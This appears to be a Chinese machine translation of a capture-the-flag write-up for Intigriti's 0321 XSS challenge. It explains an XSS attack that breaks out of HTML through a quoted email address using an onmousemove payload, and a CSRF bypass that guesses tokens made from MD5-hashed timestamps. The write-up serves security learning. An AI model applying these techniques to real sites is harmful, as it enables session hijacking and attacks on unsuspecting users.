 # Intigriti — XSS 挑战赛 0321

> 原文：<https://infosecwriteups.com/intigriti-xss-challenge-0321-472ae0a48254?source=collection_archive---------0----------------------->

## XSS 与 CSRF 旁路

![](img/c4bd4f2b1a975bb67e77fa78734a2f77.png)

推特上的挑战公告

那是三月，Intigriti 出版了新的 XSS 挑战。因为好的 XSS 挑战总是学习新的有趣方法的一种方式，我给了它一个尝试。

# XSS

挑战赛网站([https://challenge-0321.intigriti.io/](https://challenge-0321.intigriti.io/))包含一般规则和输入注释的输入框。

![](img/276c26e54056ae05425fc62183f856dd.png)

注释输入字段

如果我们输入并存储一个注释，浏览器会向服务器发送一个 POST 请求，其中包含注释、CSRF 令牌和用户的 PHP 会话 id。

```
POST / HTTP/1.1
Host: challenge-0321.intigriti.io
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Cookie: PHPSESSID=<session id>
[...]

csrf=<csrf token>&notes=this+is+an+example
```

因此，服务器将使用网站内容进行响应，包括新的注释、新的 CSRF 令牌和网站创建时的时间戳。

```
<html>
[...]
     <div class="card-container">
         <form method="POST" action="./" id="update-notes">
            <div class="card-header">Your notes:<span id="actions"><a id="notes-save" href="#">save</a></span></div>
            <p id="notes-display" class="card-content" contenteditable="true">this is an example</p>
            <input type="hidden" name="csrf" value="e79f7691593b3775c173f13512979d00"/>
            <input type="hidden" id="notes-value"  name="notes" value=""/>
         </form>
      </div>
    [...]
   <!-- page generated at 2021-03-25 10:34:19 -->
</html>
```

在服务器端，后端检查提交的笔记。如果我们发送一个特殊字符来转义 HTML 元素，比如`<`或`>`，服务器会对它们进行净化以防止注入攻击。此外，如果注释中包含 URL 或电子邮件地址，服务器会将它们转换为包含 URL 或邮件的`<a>`元素作为 href。

例如，注释“ *http://a.b 或 a@b.com*”将被转换为:

```
<a href="http://a.b" target="_blank">http://a.b</a> or <a href="mailto:a@b.com">a@b.com</a>
```

摆弄电子邮件地址并阅读 [RFC 5322](https://tools.ietf.org/html/rfc5322) ，我们知道电子邮件地址的第一部分，即@之前的部分，可以用双引号括起来。在这种情况下，服务器不会清理电子邮件地址周围的双引号，我们可以对 HTML 元素进行转义。

和以前一样，在前面的例子*"a"@b.com*中添加双引号会导致`<a href="mailto:"a"@b.com">"a"@b.com</a>`中的字母`a`不属于任何属性。

考虑到这一点，很容易向`<a>`元素添加任何属性，并滥用它来触发 XSS。mouseover 属性就是一个例子:

```
"onmousemove=alert('flag{THIS_IS_THE_FLAG}');"@evil.com
```

被转换为

```
<a href="mailto:" onmousemove="alert('flag{THIS_IS_THE_FLAG}');&quot;[@evil](http://twitter.com/evil).com&quot;">"onmousemove=alert('flag{THIS_IS_THE_FLAG}');"[@evil](http://twitter.com/evil).com</a>
```

# CSRF 旁路

为了将 XSS 传递给任何用户，我们仍然必须绕过 CSRF 令牌。

查看一个示例 CSRF 令牌*e79f 7691593 b 3775 c 173 f 13512979d 00*，我们可以从长度和使用的字符猜测它可能是一个 MD5 散列。在网页的底部，我们还可以看到服务器端创建网站时的时间戳。由于获取当前的 UNIX 时间戳、对其进行哈希处理并将其用作 CSRF 令牌是一个典型的错误，所以我们应该尝试一下。

为了快速检查，我们可以使用前面例子中的 [CyberChef](https://gchq.github.io/CyberChef/#recipe=To_UNIX_Timestamp('Seconds%20(s)',true,false)MD5()&input=MjAyMS0wMy0yNSAxMDozNDoxOQ) 以及时间戳和 CSRF 令牌。

![](img/2834d7f35b14abed24aff5004df305f8.png)

将时间戳转换为 UNIX 时间，并在[赛博网](https://gchq.github.io/CyberChef/#recipe=To_UNIX_Timestamp('Seconds%20(s)',true,false)MD5()&input=MjAyMS0wMy0yNSAxMDozNDoxOQ)中使用 MD5 对其进行哈希运算

正如我们所看到的，输出散列与前面提到的 CSRF 令牌相匹配。

了解这一点后，我们现在可以创建一个受害者会打开的 PoC 网页。网站首先向服务器发送初始请求，以生成新的 CSRF 令牌。由于 CORS，网页不能简单地从响应中读取新生成的 CSRF 令牌，但它可以猜测它，因为我们大约知道创建的时间戳。然后，网站发送第二个带有 XSS 负载的请求。

# 完整概念验证

要重现该漏洞，可以在 Firefox 中使用以下 HTML 页面。

1.  用 Firefox 打开 https://challenge-0321.intigriti.io/的[创建一个会话 ID](https://challenge-0321.intigriti.io/)
2.  用火狐打开 poc.html
3.  点击几次*发送有效载荷*，因为有时时间戳不正确
4.  返回[https://challenge-0321.intigriti.io/](https://challenge-0321.intigriti.io/)并将鼠标悬停在注释字段

**poc.html**

# 摘要

一如既往，这是一个有趣的挑战。此外，它是真实的，因为这个 XSS 漏洞在微软 Outlook 中被类似地[发现。](https://www.cyberark.com/resources/threat-research-blog/outlook-for-android-xss)

我的解决方案只适用于用户交互，因为用户需要将鼠标悬停在 notes 字段上。不幸的是，我没有找到没有用户交互的解决方案，并期待其他文章。

稍微跟进一下:
我被选为最佳文章作者之一，并赢得了一张€50 英镑的代金券。感谢 Intigriti 的巨大挑战和奖品！